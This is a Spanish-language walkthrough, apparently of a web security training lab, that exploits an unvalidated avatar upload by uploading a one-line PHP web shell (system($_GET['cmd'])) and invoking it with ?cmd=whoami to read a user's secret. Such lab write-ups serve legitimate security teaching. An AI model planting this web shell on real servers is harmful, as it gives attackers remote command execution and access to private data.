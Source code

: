 En esta clase trabajamos con una funcionalidad vulnerable de subida de imágenes que no realiza ninguna validación sobre el tipo de archivo recibido. Aprovechamos esta debilidad para subir una shell web en PHP, simulando una imagen, y posteriormente accedemos a ella desde el navegador para ejecutar código en el servidor.

Esta técnica nos permite leer el contenido de archivos sensibles, en este caso extrayendo el secreto del usuario Carlos. Aprenderás a identificar el punto de entrada, crear el payload y validar que se ejecuta correctamente desde el navegador o Burp Suite.

Solucion
La web:
![Pasted image 20250830195408.png](imagenes/Pasted image 20250830195408.png)
Nos logeamos y vemos que podemos subir un avatar
![Pasted image 20250830195448.png](imagenes/Pasted image 20250830195448.png)
y bueno podemos crear un payload sencillo para ver si nos permite tener manejo del servidor
cmd.php
(<?php
    system($_GET['cmd']); 
?>)
![Pasted image 20250830200105.png](imagenes/Pasted image 20250830200105.png)
lo cargamos
![Pasted image 20250830200129.png](imagenes/Pasted image 20250830200129.png)
nos sale esto
![Pasted image 20250830200204.png](imagenes/Pasted image 20250830200204.png)
si nosotros le picamos y inspeccionamos la imagen nos dara la ruta donde se almacena
![Pasted image 20250830200307.png](imagenes/Pasted image 20250830200307.png)
si nos vamos a esa direccion no vamos a ver nada
![Pasted image 20250830200421.png](imagenes/Pasted image 20250830200421.png)
tal que si ahora le concatenamos ?cmd=whoami
![Pasted image 20250830200503.png](imagenes/Pasted image 20250830200503.png)
y ya solo ponemos la ruta que nos piden
![Pasted image 20250830200749.png](imagenes/Pasted image 20250830200749.png)
ya solo proporcionamo el codigo en la pagina
![Pasted image 20250830200919.png](imagenes/Pasted image 20250830200919.png)
